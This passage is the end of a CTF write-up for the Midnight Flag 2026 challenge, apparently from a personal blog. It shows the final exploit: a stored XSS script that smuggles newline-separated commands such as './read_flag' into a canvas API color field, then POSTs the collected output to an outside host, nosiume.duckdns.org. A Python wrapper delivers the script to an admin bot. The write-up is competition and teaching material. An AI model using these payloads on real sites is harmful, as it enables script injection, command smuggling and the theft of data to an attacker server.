        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        "id": 9,
        "x": 0,
        "y": 0,
        "color": "#000000\\nEXIT"
    })
});

var accumulator = "";
for(var i = 0 ; i < 3 ; i++) {
    res = await fetch("/api/canvas/set", {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify({
            "id": 9,
            "x": 0,
            "y": 0,
            "color": "#000000\\n./read_flag"
        })
    });
    var data = await res.json();
    accumulator += data['message'];
}

var res = await fetch('http://nosiume.duckdns.org:5000/', {
    method: 'POST',
    mode: 'no-cors',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({
        "output": accumulator
    })
});
"""

payload3 = f"<script type=\"module\">{raw_js}</script>"
res = requests.post(f"{TARGET_URL}/api/message", json={
    'content': payload3
})

if res.status_code != 200:
    print("Something went wrong !")

success(get_leak_request())
```

And now all that's left is to cross our fingers and hope the bot executes all our commands correctly!



The flag appears! Here I had to test it with a fake local flag since the remotes were closed after the CTF. We can see that my parser failed to understand the request sent by my XSS payload, but the error message displays the flag regardless!

Official flag: `MCTF{Wh3n_Fe4r_3sc4p3_Th3_C4NV4S}`

The final exploit is available [here](./challenge_files/real_exploit/final_exp.py) and the binary exploit [here](./challenge_files/exp.py).

## Reflections

I really enjoyed this challenge — it starts from a fairly basic but still tricky heap challenge (the initial primitive is rather lightweight but has a big impact), and the combination of an XSS payload to reach a vulnerable binary was quite fun to set up.

*Despite that, the challenge got thoroughly wrecked by AI, but we won't talk about that*

Many thanks to HeaZzy and the Midnight Flag 2026 team for the high-quality challenges!

[Back Home](../README.md)

